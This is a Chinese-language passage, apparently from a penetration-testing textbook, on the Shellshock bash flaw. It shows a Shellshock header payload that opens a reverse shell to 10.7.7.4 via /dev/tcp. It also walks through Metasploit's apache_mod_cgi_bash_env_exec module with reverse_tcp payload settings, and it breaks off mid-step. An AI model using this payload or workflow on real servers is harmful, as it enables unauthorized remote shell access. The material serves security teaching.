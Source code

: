 ```
() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"
```

![](img/00123.jpeg)

bashshell 将变量解释为命令并执行它，而不是接受变量作为字符序列。这看起来与前面讨论的命令注入缺陷非常相似。然而，这里的主要区别在于 bashshell 本身容易受到代码注入的影响，而不是网站。由于许多应用（如 DHCP、SSH、SIP 和 SMTP）都使用 bash shell，因此攻击面在很大程度上增加了。利用 HTTP 请求上的漏洞仍然是最常见的方法，因为 bash shell 通常与 CGI 脚本一起使用。

为了识别 web 服务器中的 CGI 脚本，除了使用代理分析请求和响应外，还可以使用**Nikto**和**DIRB**。

# 使用 Metasploit 进行开发

从终端（`msfconsole`启动 Metasploit 控制台。您需要选择`exploit/multi/http`下的`apache_mod_cgi_bash_env_exec`漏洞：

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec  
```

然后您需要使用`set`命令定义远程主机和目标 URI 值。您还需要选择使 web 服务器连接到攻击者机器的`reverse_tcp`有效负载。这可以通过导航到 linux | x86 | MeterMeter 找到。

确保本地主机（`SRVHOST`和本地端口（`SRVPORT`的值正确。您可以使用`set`命令设置这些值和其他值：

```
set SRVHOST 0.0.0.0
set SRVPORT 8080  
```

使用`0.0.0.0`主机，服务器将监听攻击者启用的所有网络接口。此外，请验证攻击者机器的选定端口上是否没有正在运行的服务：
